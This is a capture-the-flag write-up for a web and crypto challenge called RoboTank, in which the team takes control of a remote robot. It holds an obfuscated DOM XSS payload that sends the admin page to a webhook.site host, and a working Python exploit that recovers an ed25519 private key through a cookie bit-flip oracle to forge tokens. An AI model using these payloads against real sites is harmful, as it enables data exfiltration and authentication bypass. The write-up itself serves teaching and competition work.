








`Team` : `srdnlen`
`Solvers` : `DarkKnight, lrnzsir, pysu, sanmatte`
<br>
# Overview
---
<div style="text-align: justify;"> 

>This is a cyberwar.
>Every cyberwar has its robotank.
>This is our robotank.

The goal of the RoboTank challenge is to exploit the provided web interface in order to control a robot located on-site and find the flags placed in the room. Upon the initial login, every team was granted a coupon worth 5 credits. Through the web interface, teams could purchase actions for 5 credits each (or shields for 15 credits).

On the main page, buttons allow us to execute real-time actions on the robot. A button could be in one of three states:
- **Disabled**: the action was owned by another team, so you couldn't buy it;
- **Blue**: no one owned the action, so it could be bought (supposed you had sufficient balance);
- **Green**: you were the owner and you could execute it.


<div style="page-break-after: always;"></div>

# Exploitation
---
## Web

Initially, upon accessing the main page, all action buttons are disabled, as the user admin owns all robot actions. The primary objective was to gain ownership of the robot's actions.

Upon examining the source files, we identified an intriguing endpoint, `/report`, where a user could submit a URL to an admin bot. Additionally, by analyzing the source code in `admin.js`, we discovered that an admin user could reset the ownership of a specific robot action. Armed with this knowledge, the central goal was to uncover a method for executing XSS to send to the bot and reset the robot's actions.

On the account page `/account/:id`, users could modify a team's motto, and this change would be reflected in another section of the same page.



The `bbrender.js` script was responsible for altering a team's motto. By inspecting the code below, we noticed that the content inside the element in the red box on the left side was extracted through the instruction `window.current_motto.innerText`. Subsequent checks and manipulations were performed, and the result was then inserted back into the same element. However, this process presented **two** main issues: the use of the `innerHTML` property at the end, which does not sanitize user input and directly replaces it as HTML instead of text, and the implemented custom syntax, which allows XSS.
<div style="page-break-after: always;"></div>

```js
// bbrender.js

$(document).ready(() => {
  if (window.current_motto) {
    var current_motto = window.current_motto.innerText;
        
    //Welcome back to my laboratory, 
    //where safety is the number one priority
    if (current_motto.includes("<") || current_motto.includes(">")) 
        return; 
    
    current_motto = current_motto.replace(/\[b\]/, "<strong>");
    current_motto = current_motto.replace(/\[\/b\]/, "</strong>");
    current_motto = current_motto.replace(/\[i\]/, "<i>");
    current_motto = current_motto.replace(/\[\/i\]/, "</i>");
    current_motto = current_motto.replace(/\[url ([^\]\ ]*)\]/, "<a href=$1>");
    current_motto = current_motto.replace(/(.*)\[\/url\]/, "$1</a>");
    
    // Images are so dangerous
    // current_motto = current_motto.replace(/\[img\]/, '');
    
    window.current_motto.innerHTML = current_motto;
  }
});
```

The code revealed that the authors disabled the insertion of images due to safety concerns. Nevertheless, exploiting the presence of certain tags, we successfully triggered a **DOM XSS** after some attempts. As our initial action, we dumped the admin page using the following payload:
```
[url \"aa\"onfocus=\"eval(atob('ZmV0Y2goJy9hZG1pbicpLnRoZW4ocj0+ci50ZXh0KCkpLnRoZW4oKGQpPT57ZmV0Y
2goJ2h0dHBzOi8vd2ViaG9vay5zaXRlLzcyZTEyMGZhLTQyOTEtNDY1ZC05ZDQ1LWI5Zjg0YzM2YmM5OD9jPScrZW5jb2RlVV
JJQ29tcG9uZW50KGQpKX0p'))\"autofocus]XSS[/url]
```

```js
// Decoded version of base64 

fetch('/admin')
	.then(r => r.text())
	.then((t) => {
		fetch(
			'https://webhook.site/[webhook]',
			{method:'POST', body:t}
		)
	})
```

\
*The dumped admin page*

&emsp;

After obtaining the XSS, we created payloads to reset all robot's actions: camera, forward, left, right, and backward.

Using the initial coupon of 5 credits that was given at the beginning to each team, we bought the camera action...


#### Payload description
In the image below, you can see an example of a payload that allows us to reset the ownership of the *forward* action. The first is what we can insert into the account motto input text and the second is how it becomes after the parsing. In order to fool the `includes` function and avoid breakage of our payload we encoded our payload in base64.
\
*NOTE: There is a space between url and \\*

The base64 inside the `atob` function is the code attached below.
```js
fetch(
	'/admin',
	{
		method: 'POST',
		headers: {"Content-Type":"application/json"},
		body: JSON.stringify({id: 1})
	}
)
```
## Crypto

After obtaining a way to reset the actions' ownership, we need to find a way to increment our credits to buy the robot's actions. The idea was to exploit the reset account functionality in order to receive a new coupon.

Starting from the account page, we noticed that other specific information is provided to the user (if you have a familiarity with cryptography probably already recognize them): Public key, Generator (x), and Challenge for token.



By inspecting the code in the `account.js` source, in particular, we mainly focused on the reset account code section, which after validating the provided token resets the user account and **sets a new coupon**. 

```js
if (await verifyToken(challenge, private_key, token)) {
	coupon = uuid();
	const result = await db.resetUser(user.id, coupon);
	...
```

Where `verifyToken` function performs an ECDSA verification using the `ed25519` curve, therefore to bypass the `verifyToken` function we need to sign the challenge with the private key.
<br>
### Recover the private key

Searching for all the occurrences of the private key in the source code one finds, at line 48 of `routes/auth.js` where `/auth/login` is treated, the following:

```js
if (user.curve_private_key && user.session_key) {
  // Generate public key and challenge
  encrypted_secret_key = xor(
    fromHex(user.curve_private_key),
    fromHex(user.session_key)
  );
  res.cookie("secret", toHex(encrypted_secret_key));
  user.challenge = genChallenge();
}
```

We know the value of this cookie, so if we can recover `session_key` we can **recover the private key** and sign any given challenge.

To do so, we need to search where `session_key` is used in the code and if we can recover it from there. At line 43 of `routes/account.js` where `/account/:id` is treated we find:

```js
if (
  req.cookies.secret &&
  /^[0-9a-fA-F]+$/.test(req.cookies.secret) &&
  req.cookies.secret.length === 64
) {
  private_key = xor(fromHex(req.cookies.secret), fromHex(user.session_key));
} else {
  // Regenerate secret
  private_key = fromHex(user.curve_private_key);
  session_key = fromHex(user.session_key);
  encrypted_secret_key = xor(private_key, session_key);
  res.cookie("secret", toHex(encrypted_secret_key));
}
```

The `else` clause is the same as the one we saw before, so we can ignore it. The `if` clause is what we are looking for: **modifying the cookie** we can obtain a private key that is the xor of `session_key` and the chosen cookie; the private key is then used to compute the displayed public key.

Let us denote with $G$ the generator of `ed25519` and with $s$ the `session_key`. Recall that the public key is computed as $a \cdot G$ with $a \in \mathbb{Z}$. Let us denote with $s_i$ the $i^{th}$ bit of $s$, thus $s = \sum_{j = 0}^{255} s_j 2^j$. By modifying the cookie we can **flip any bit** of $s$ that we want.

Let $a, b$ be two arbitrary bits. We have that:

$$ a \oplus b =
\begin{cases}
  a & b = 0 \\
  1 - a & b = 1
\end{cases} $$

To recover $s$ we first recover $P = s \cdot G$ by sending a cookie with all 256 bits at zero. Then we flip only the $i^{th}$ bit of the zero cookie and we obtain $P_i = (s \oplus 2^i) \cdot G$. Given what we said before, we have that:

$$ P_i = (s \oplus 2^i) \cdot G = \sum_{j = 0, j \ne i}^{255} (s_j 2^j) \cdot G + ((s_i \oplus 1) 2^i) \cdot G $$

This means that:

$$ P - P_i = ((s_i - (s_i \oplus 1)) 2^i) \cdot G =
\begin{cases}
  -2^i \cdot G & s_i = 0 \\
  2^i \cdot G & s_i = 1
\end{cases} $$

and thus:

$$ s_i = \begin{cases}
  0 & P = P_i - 2^i \cdot G \\
  1 & P = P_i + 2^i \cdot G
\end{cases} $$

After 257 queries, one for $P$ and the others for all $P_i$, we should have all bits of $s$. To test this we can send $s$ as a cookie and check that the public key is $O = 0 \cdot G$. In truth, the server crashes, probably because the coordinates of $O$ are not explicitly defined.

Using the recovered `session_key` we can now **compute the private key** from the original cookie and sign any challenge the server sends us.

The following script called `ed25519_utils.py` contains the code to use the `ed25519` curve and some utility functions for the main exploit:

```python
from sage.all import GF, EllipticCurve

# Taken from https://neuromancer.sk/std/other/Ed25519

p = 0x7fffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffed
K = GF(p)
a = K(0x7fffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffec)
d = K(0x52036cee2b6ffe738cc740797779e89800700a4d4141d8ab75eb4dca135978a3)
E = EllipticCurve(K, (
    K(-1) / K(48) * (a**2 + 14*a*d + d**2), 
    K(1) / K(864) * (a + d) * (-a**2 + 34*a*d - d**2)
))


def to_weierstrass(a, d, x, y):
    return (
        (5*a + a*y - 5*d*y - d)/(12 - 12*y), 
        (a + a*y - d*y -d)/(4*x - 4*x*y)
    )


def to_twistededwards(a, d, u, v):
    y = (5*a - 12*u - d)/(-12*u - a + 5*d)
    x = (a + a*y - d*y -d)/(4*v - 4*v*y)
    return (x, y)


G = E(*to_weierstrass(
    a, 
    d, 
    K(0x216936D3CD6E53FEC0A4E231FDD6DC5C692CC7609525A7B2C9562D608F25D51A), 
    K(0x6666666666666666666666666666666666666666666666666666666666666658)
))
E.set_order(
    0x1000000000000000000000000000000014def9dea2f79cd65812631a5cf5d3ed * 0x08
)

# This curve is a Weierstrass curve (SAGE does not support TwistedEdwards curves) 
# birationally equivalent to the intended curve.
# You can use the to_weierstrass and to_twistededwards functions to convert the points.


def get_secrets_to_send() -> "list[str]":
    secret = "0" * 64
    secrets = []
    for i in range(256):
        secrets.append(hex(int(
            "0" * i + "1" + "0" * (256 - i - 1), 2
        ))[2:].zfill(64))
    return [secret] + secrets


def recover_session_key(public_keys: "list[tuple[int, int]]") -> str:
    global G, E, a, d, K

    public_keys = [
        E(*to_weierstrass(a, d, K(x), K(y))) for x, y in public_keys
    ]
    public_key, public_keys = public_keys[0], public_keys[1:]

    session_key = ""
    for i in range(256):
        if public_key + 2**(256 - i - 1) * G == public_keys[i]:
            session_key += "0"
        elif public_key - 2**(256 - i - 1) * G == public_keys[i]:
            session_key += "1"
        else:
            raise Exception("Unexpected relation between public keys")
    return hex(int(session_key, 2))[2:].zfill(64)


def recover_privkey(original_secret: str, session_key: str) -> str:
    original_secret = bytes.fromhex(original_secret)
    session_key = bytes.fromhex(session_key)
    privkey = bytes([a ^ b for a, b in zip(original_secret, session_key)])
    return privkey.hex()


def get_pubkey(privkey: str) -> "tuple[int, int]":
    global G, a, d
    return tuple(map(int, to_twistededwards(
        a, 
        d, 
        *(int(privkey, 16) * G).xy()
    )))
```

The following script is the main exploit:

```python
from ed25519_utils import (
	get_secrets_to_send, 
	recover_session_key, 
	recover_privkey, 
	get_pubkey
)
from cryptography.hazmat.primitives.asymmetric.ed25519 import Ed25519PrivateKey
from Crypto.Util.number import long_to_bytes
import requests, ast, tqdm

url = "https://robotank.snakectf.org/"
priv_key = None

session = requests.Session()

res = session.post(
	url + "auth/login", 
	json={
	    'password': 'REDACTED',
	    'username': 'srdnlen'
	}
)

res = session.get(url + "account/:id")
team_id = res.url.split("/").pop()
secret_original = session.cookies["secret"]

if priv_key is None:
    secrets = get_secrets_to_send()

    public_keys = []
    for secret in tqdm.tqdm(secrets):
        session.cookies.set("secret", secret)
        res = session.get(url + f"account/{team_id}")
        
        assert "Public Key: " in res.text
        
        public_keys.append(
	        ast.literal_eval(
		        res.text.split("Public Key: ")
					    .pop()
				        .split("</p>")
				        .pop(0)
			)
		)

    session_key = recover_session_key(public_keys)
    print("Session key:", session_key)

    # Check if session key is correct
    session.cookies.set("secret", session_key)
    res = session.get(url + f"account/{team_id}")
    
    # Internal Server Error because it uses 0 as a private key
    assert res.status_code == 500

    priv_key = recover_privkey(secret_original, session_key)

    # Check if private key is correct
    session.cookies.set("secret", secret_original)
    res = session.get(url + f"account/{team_id}")
    
    assert "Public Key: " in res.text
    
    public_key = ast.literal_eval(
	    res.text.split("Public Key: ")
			    .pop()
			    .split("</p>")
			    .pop(0)
	)
    public_key_recovered = get_pubkey(priv_key)
    
    assert (
	    public_key == public_key_recovered, 
	    "Public key mismatch, private key is incorrect"
	)

    print("Private key:", priv_key)

sk = Ed25519PrivateKey.from_private_bytes(
	bytes.fromhex("00" + priv_key)
)


def sign(challenge: int) -> str:
    global sk
    sign = sk.sign(long_to_bytes(int(challenge)))
    return sign.hex()


if __name__ == '__main__':
	try:
	    while True:
	        if input("Reset account?").lower().startswith("n"):
	            print("Bye!")
	            break
	
	        res = session.get(url + f"account/{team_id}")
	        assert "Challenge for token: " in res.text
	        challenge = int(
		        res.text.split("Challenge for token: ")
				        .pop()
				        .split("</p>")
				        .pop(0)
			)
	        
	        res = session.post(
		        url + f"account/{team_id}/token", 
		        json={"token": sign(challenge)}
		    )
	        coupon = res.json()["coupon"]
	
	        res = session.post(
		        url + "auth/login", 
		        json={
		            'password': 'REDACTED',
		            'username': 'srdnlen'
		        }
		    )
	
	        res = session.post(
		        url + f"account/{team_id}/coupon", 
		        json={"coupon": coupon}
		    )
	except KeyboardInterrupt:
	    print("\nBye!")
	except Exception as e:
	    print(e)
```

<br><br>
# Summary
---
In the end, we put the two exploits together to control the remote robot.

Final Flow:
- Reset the interested robot's action using XSS;
- Infer the private key using public key and secret (only one time);
- Retrieve the challenge from the account page;
- Sign the challenge with the private key;
- Buy the interested action;
- Send the command to the remote robot.

We repeated this flow to navigate with the robot in the room and find the two pieces of hidden flags.

<div style="page-break-after: always;"></div>

#### First part of the flag:

#### Second part of the flag:

</div>
